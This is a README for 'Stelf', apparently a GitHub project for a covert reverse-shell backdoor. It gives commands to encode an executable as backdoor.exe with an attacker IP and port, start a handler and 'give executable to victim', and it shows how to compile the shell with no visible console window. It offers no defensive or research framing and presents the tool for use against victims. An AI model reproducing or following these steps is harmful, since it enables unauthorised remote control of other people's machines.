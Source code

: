 # Stelf
### Shell That Excercises Limited Fanfare

## Demo

[![asciicast](https://asciinema.org/a/agt46e0dpxo7ecrucvos6c5am.png)](https://asciinema.org/a/agt46e0dpxo7ecrucvos6c5am)

## Usage


##### Encode your executable:
```
python2 encode.py 192.168.1.5 8080 backdoor.exe
```
##### Start handler
```
python2 handler.py
```

##### Give executable to victim 

Rejoice

## Compiling the executable yourself - optional

#### Steps to Install:

- Install [Python2.7](https://www.python.org/ftp/python/2.7.13/python-2.7.13.msi)
- Install [Microsoft Visual C++ 9.0](https://download.microsoft.com/download/7/9/6/796EF2E4-801B-4FC4-AB28-B59FBF6D907B/VCForPython27.msi)
- pip install -r requirements.txt

##### Compile the shell manually:

```
pyinstaller --noconsole --onefile shell.py
```

Your file will be in dist/shell.exe

Enjoy!
